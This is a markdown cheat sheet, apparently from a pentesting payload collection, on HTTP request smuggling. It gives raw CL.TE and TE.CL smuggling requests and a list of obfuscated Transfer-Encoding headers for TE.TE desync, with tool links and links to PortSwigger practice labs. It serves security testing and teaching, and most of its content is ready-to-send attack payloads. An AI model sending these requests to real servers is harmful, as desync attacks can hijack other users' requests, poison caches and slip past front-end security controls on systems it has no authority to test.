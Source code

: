 # Request Smuggling

## Summary

* [Tools](#tools)
* [CL.TE vulnerabilities](#cl.te-vulnerabilities)
* [TE.CL vulnerabilities](#te.cl-vulnerabilities)
* [TE.TE behavior: obfuscating the TE header](#te.te-behavior-obfuscating-the-te-header)
* [References](#references)

## Tools

* [HTTP Request Smuggler / BApp Store](https://portswigger.net/bappstore/aaaa60ef945341e8a450217a54a11646)
* [Smuggler](https://github.com/defparam/smuggler)

## CL.TE vulnerabilities

> The front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding header.

```powershell
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

Example:

```powershell
POST / HTTP/1.1
Host: domain.example.com
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

Challenge: https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te

## TE.CL vulnerabilities

> The front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header. 

```powershell
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

Example:

```powershell
POST / HTTP/1.1
Host: domain.example.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86
Content-Length: 4
Connection: close
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
x=1
0


```

:warning: To send this request using Burp Repeater, you will first need to go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.You need to include the trailing sequence \r\n\r\n following the final 0.

Challenge: https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl

## TE.TE behavior: obfuscating the TE header

> The front-end and back-end servers both support the Transfer-Encoding header, but one of the servers can be induced not to process it by obfuscating the header in some way.

```powershell
Transfer-Encoding: xchunked
Transfer-Encoding : chunked
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding:[tab]chunked
[space]Transfer-Encoding: chunked
X: X[\n]Transfer-Encoding: chunked
Transfer-Encoding
: chunked
```

Challenge: https://portswigger.net/web-security/request-smuggling/lab-ofuscating-te-header

## References

* [PortSwigger - Request Smuggling Tutorial](https://portswigger.net/web-security/request-smuggling) and [PortSwigger - Request Smuggling Reborn](https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn)
* [A Pentester's Guide to HTTP Request Smuggling - Busra Demir - 2020, October 16](https://blog.cobalt.io/a-pentesters-guide-to-http-request-smuggling-8b7bf0db1f0)
